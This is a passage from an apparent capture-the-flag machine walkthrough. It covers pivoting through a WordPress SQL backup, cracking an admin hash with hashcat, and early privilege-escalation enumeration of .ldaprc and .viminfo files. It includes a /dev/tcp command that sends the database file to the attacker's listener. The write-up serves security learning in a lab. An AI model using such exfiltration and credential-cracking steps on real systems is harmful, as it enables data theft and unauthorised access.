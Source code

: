 ## Pivoting
- While enumerating I found the directory `/opt/wordpress` which had a `sql` database file
- So I transferred the file like this to my netcat listener
```bash
cat backup-13-04-2020.sql > /dev/tcp/10.10.14.16/8001
```
- If I search for `admin` using `grep` I can get two hashes
![Pasted image 20250228121321.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228121321.png?raw=true)
- Only one hash could be cracked. Which is the hash for user `lynik-admin`
```bash
hashcat hashes /usr/share/wordlists/rockyou.txt
```
![Pasted image 20250228121920.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228121920.png?raw=true)
- Now I have ssh access for user `lynik-admin`
- Got the {{< keyword >}} User flag {{< /keyword >}}
- *Breaking the fourthwall* --> I can see what you are thinking
![soon](https://media1.tenor.com/m/--JqR4L6UIIAAAAC/titanic-it%27ll-all-be-over-soon.gif)

## Privilege Escalation
- In the home directory of `lynik-admin` , I can see a hidden file `.ldaprc`.
![Pasted image 20250228163300.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228163300.png?raw=true)
- Which is particularly interesting, This [article](https://www.mkssoftware.com/docs/man5/ldap_config.5.asp) says that the file `ldaprc` holds the configuration for `LDAP` clients.
![Pasted image 20250228163610.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228163610.png?raw=true)
- The file contents are:-
![Pasted image 20250228163642.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228163642.png?raw=true)
- I enumerated the domain with some basic commands 
![Pasted image 20250228163936.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228163936.png?raw=true)
- There was another interesting file hidden within the home directory which is `.viminfo`
- Basically `.viminfo` file will hold serialized data of any modifications done through vim editor.
![Pasted image 20250228164514.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228164514.png?raw=true)
- Contents of `.viminfo`:
```
# This viminfo file was generated by Vim 8.1.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:wq!
|2,0,1587670530,,"wq!"

# Search String History (newest to oldest):

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
```